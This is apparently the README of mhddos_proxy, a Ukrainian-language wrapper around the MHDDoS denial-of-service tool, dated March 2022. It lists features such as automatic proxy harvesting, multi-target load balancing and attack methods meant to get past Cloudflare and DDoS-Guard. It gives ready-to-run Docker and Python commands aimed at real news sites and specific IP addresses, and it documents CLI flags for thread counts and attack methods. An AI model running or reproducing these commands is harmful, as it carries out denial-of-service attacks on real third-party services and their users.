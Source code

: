 Скрипт-обгортка для запуску потужного DDoS інструмента [MHDDoS](https://github.com/MHProDev/MHDDoS).

- **Не потребує VPN** - скачує і підбирає робочі проксі для атаки (доступний режим `--vpn` за бажанням)
- Атака **декількох цілей** з автоматичним балансуванням навантаження
- Використовує **різноманітні методи для атаки**

### Неофіційний гайд - [Детальний розбір MHDDoS_proxy](https://github.com/SlavaUkraineSince1991/DDoS-for-all/blob/main/MHDDoS_proxy.md)

### ⏱ Останні оновлення

- **29.03.2022** Додано підтримку локального файлу конфігурації (дуже дякую, @kobzar-darmogray).
- **28.03.2022** Додано табличний вивід `--table` (дуже дякую, @alexneo2003).

<details>
  <summary>📜 Раніше</summary>

- **27.03.2022**
    - Дозволено запуск методів DBG, BOMB (дякую @drew-kun за PR) та KILLER для відповідності оригінальному MHDDoS.
- **26.03.2022**
    - Запуск усіх обраних атак, замість випадкового вибору
    - Зменшено використання RAM на великій кількості цілей - тепер на RAM впливає тільки параметр `-t`
    - Додане кешування DNS і корректна обробка проблем з резолвінгом
- **25.03.2022** Додано режим VPN замість проксі (прапорець `--vpn`)
- **25.03.2022** MHDDoS включено до складу репозиторію для більшого контролю над розробкою і захистом від неочікуваних
  змін
</details>

### 💽 Встановлення | Installation - [інструкції ТУТ](/docs/installation.md)

### 🕹 Запуск | Running (наведено різні варіанти цілей)

#### Docker

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (якщо не працює - просто python замість python3)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Налаштування (більше у розділі [CLI](#cli))

**Усі параметри можна комбінувати**, можна вказувати і до і після переліку цілей

Змінити навантаження - `-t XXXX` - кількість потоків, за замовчуванням - CPU * 1000

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -t 3000 https://ria.ru https://tass.ru

Щоб переглянути інформацію про хід атаки, додайте прапорець `--table` для таблиці, `--debug` для тексту

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table https://ria.ru https://tass.ru

### 🚨 Попередження щодо деяких методів атаки
Метод **BYPASS** - це повільна версія методу GET, має сумнівну ефективність.

Методи **CFB** та **DGB** - успішні запити залежать не від самої реалізації, а від "чистоти" IP-адреси.  
Наразі не існує надійної open-source реалізації обходу Cloudflare та DDoS-Guard.  
Еффективнішим буде пошук оригінальних серверів цілі або атака методами за замовчуванням.

Метод **BOMB** потребує значно більше RAM - зменшіть значення `-t`.  
Також потребує додаткових налаштувань при запуску через python - звертайтеся
до [документації MHDDoS](https://github.com/MHProDev/MHDDoS).

Метод **KILLER** може мати непередбачувані наслідки для вашої системи - використання на власний ризик.

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-p PERIOD]
                     [-c URL]
                     [--table]
                     [--debug]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL to remote or path to local config file (list of targets in plain text)
      -t, --threads 2000     Total number of threads to run (default is CPU * 1000)
      -p, --period 900       How often to update the proxies (default is 900)
      --table                Print log as table
      --debug                Print log as text
      --vpn                  Disable proxies to use VPN
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --proxy-timeout 5      How many seconds to wait for the proxy to make a connection (default is 5)
      --http-methods GET     List of HTTP(s) attack methods to use.
                             (default is GET, POST, STRESS, BOT, PPS)
                             Refer to MHDDoS docs for available options
                             (https://github.com/MHProDev/MHDDoS)

